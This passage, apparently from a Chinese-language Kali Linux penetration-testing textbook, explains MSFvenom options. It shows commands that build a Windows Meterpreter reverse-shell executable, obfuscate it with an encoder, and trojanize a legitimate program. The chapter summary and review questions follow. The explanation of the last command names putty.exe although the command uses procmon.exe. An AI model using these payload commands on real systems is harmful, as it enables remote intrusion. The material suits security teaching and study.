 要使用 MSFvenom，您需要在 Kali Linux 的终端窗口中输入`msfvenom`命令。应用程序将向您提供可用选项的列表。以下是一些最重要的选择：

*   `-p`用于选择 Metasploit 有效载荷，有多个有效载荷可用；它们支持 Windows、Linux、Mac 等。定义有效负载的示例如下所示：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -f exe -o shell.exe
```

在本例中，我们使用的是`windows/meterpreter/reverse_tcp`有效负载，定义了本地主机和 IP 地址。使用`-f`选项将输出格式定义为`.exe`，使用`-o`选项将输出文件保存为`shell.exe`。

*   `-e`用于选择编码器。编码器是一种可用于重新编码有效载荷的算法。这用于混淆有效负载的意图。您可以使用`msfvenom -l encoders`命令找到编码器列表。**使用编码器的示例如下：**

 **```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -e x86/shikata_ga_nai -i 3 -f exe -o payload.exe
```

在本例中，选择的编码器为`shikata_ga_nai`，使用`-i`**选项定义的迭代为`3`。**

 ***   `-x`用于定义自定义可执行文件作为模板使用。使用此选项，您可以获取合法文件并创建其恶意版本，从而授予您远程 shell。这方面的一个例子如下：

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<LOCAL IP> LPORT=<LOCAL PORT> -x procmon.exe -f exe -o evilprocmon.exe
```

在本例中，`putty.exe`被用作模板来创建名为`evilputty.exe`的恶意版本。

# 总结

在本章中，我们研究了 Metasploit 框架。我们定义了它可以用于什么，并探讨了包含的各种类型的模块。我们完成了 Metasploit 的一些初始任务，并研究了在哪里可以获得新模块。利用 Metasploit 的灵活性，我们从其他来源（如 Nmap 和 Nessus）导入数据，并探索 Metasploit 的核心组件。最后，我们研究了在外壳代码的创建中使用 MSFvenom。

现在，您可以执行 Metasploit 框架的初始配置。您已经学习了如何执行一些初始设置任务，例如更新 Metasploit 框架并将其链接到数据库。您已经掌握了如何通过使用工作区和从 Nmap 和 Nessus 等工具导入数据来增强 Metasploit 框架内体验的技能。您已经了解了从何处获取新模块以及如何安装它们。您已经了解了 Metasploit 的主要选项以及 Shell 和有效载荷之间的区别。最后，在本章中，您已经掌握了如何使用 MSFvenom 利用外壳代码的技巧。

在下一章（[第 6 章](06.html)、*理解密码攻击*）中，我们将了解各种类型的密码攻击以及从何处获取密码列表。我们将利用 Kali Linux 中的内置工具，并执行一些密码破解和凭据转储。

# 问题

1.  说出 Metasploit 框架版本 5 中引入的一个关键特性。
2.  至少命名 Metasploit 框架中存在的三个模块。
3.  说出两个可以导入 Metasploit 框架的外部数据源。
4.  指定至少两个可以下载其他模块的公共存储库。
5.  绑定 shell 和反向 shell 之间有什么区别？*****************